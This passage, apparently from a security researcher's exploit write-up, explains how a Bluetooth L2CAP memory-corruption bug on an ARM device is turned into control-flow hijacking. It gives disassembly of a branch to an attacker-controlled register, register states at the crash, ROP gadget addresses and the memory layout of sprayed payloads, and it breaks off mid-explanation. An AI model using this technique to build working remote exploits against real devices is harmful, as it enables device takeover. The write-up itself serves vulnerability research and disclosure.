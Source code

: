 .text:0x001298E0                 LDR             R0, [R4,#0x10]                               => Load R0 from R4+0x10                 => Set R0 = list->allocator
.text:0x001298E2                 LDR             R1, [R0]                                     => Load R1 from R0                      => Set R1 = list->allocator->alloc
.text:0x001298E4                 MOVS            R0, #8                                       => Move 8 to R0                         => Set R0 = sizeof(list_node_t)
.text:0x001298E6                 BLX             R1                                           => Branch with link and exchange to R1  => Branch to controlled R1 !!!

Before the controlled branch to R1 registers contains:
- R0 = 0x8
- R1 = second payload value + 0x0
- R2 and R5 point to BT_HDR* p_buff with the second payload
- R4 point to list_t* p_lcb->link_xmit_data_q with the first payload


In order to find the start of the first payload in list_t* p_lcb->link_xmit_data_q pointed by R4 we used the ldm gadget found at 0x00125734:

0x00125734 : ldm r4, {r0, r1, r2, r3, r5, r6, r7, sb, sl, ip, sp, lr, pc}

The target crash with following register containts:

- R4       = ade05278 = list_t* p_lcb->link_xmit_data_q with the first payload at + 0x894C (0x894C / 0x360 = 0x28 = 40 packets where we can access the second payload)

- R0       = R4 + 0x0  = 0020de08
- R1       = R4 + 0x4  = dead0000 = first payload value + 0x0
- R2       = R4 + 0x8  = dead0001 = first payload value + 0x4
- R3       = R4 + 0xC  = dead0002 = first payload value + 0x8
- R5       = R4 + 0x10 = ade0db14 = first payload value + 0xC = address of second payload + 0x0
- R6       = R4 + 0x14 = dead0003 = first payload value + 0x10
- R7       = R4 + 0x18 = 00200004
- R9  (SB) = R4 + 0x1C = dead0000 = first payload value + 0x0
- R10 (SL) = R4 + 0x20 = dead0001 = first payload value + 0x4
- R12 (IP) = R4 + 0x24 = dead0002 = first payload value + 0x8
- R13 (SP) = R4 + 0x2C = ade0db14 = first payload value + 0xC = address of second payload+ 0x0
- R14 (LR) = R4 + 0x30 = dead0003 = first payload value + 0x10

The first payload is repeated each 0x14 bytes which is the size of list_t structure

typedef struct list_t {
list_node_t* head;                                                | Size 0x4 | Offset 0x0  | l2cap header not usable
list_node_t* tail;                                                | Size 0x4 | Offset 0x4  | first payload value + 0x0
size_t length;                                                    | Size 0x4 | Offset 0x8  | first payload value + 0x4
list_free_cb free_cb;                                             | Size 0x4 | Offset 0xC  | first payload value + 0x8
const allocator_t* allocator;                                     | Size 0x4 | Offset 0x10 | first payload value + 0xC
} list_t;                                                           | Size 0x14


In order to find the start of the second payload in BT_HDR* p_buff pointed by R5 we used the ldm gadget found at 0x000dcecc:
